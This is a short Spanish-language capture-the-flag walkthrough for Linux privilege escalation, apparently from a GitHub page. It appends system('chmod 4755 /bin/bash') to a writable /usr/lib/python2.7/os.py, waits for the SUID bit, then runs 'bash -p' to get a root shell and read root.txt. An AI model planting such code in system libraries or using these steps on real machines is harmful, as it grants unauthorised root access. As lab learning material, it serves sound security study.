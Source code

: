 
1. Miramos nuestros derechos en la carpeta 
```bash
 /usr/lib/python2.7 
```


    ```bash
    locate os.py
    ls -l /usr/lib/ | grep "python2.7"
    ```

    Vemos que tenemos todo los derechos en esta carpeta

1. Alteramos el fichero os.py

    ```bash
    cd /usr/lib/python2.7
    nano os.py
    ```

    Al final de este fichero, añadimos el comando siguiente

    ```python
    system("chmod 4755 /bin/bash")
    ```

1. Monitorizamos la /bin/bash

    ```bash
    watch -n 1 ls -l /bin/bash
    ```

Vemos que aparece un 
```bash
 s 
```
 en la /bin/bash

```bash
bash -p
whoami
#Output
root
cd /root
cat root.txt
```

Ya podemos leer el root.txt
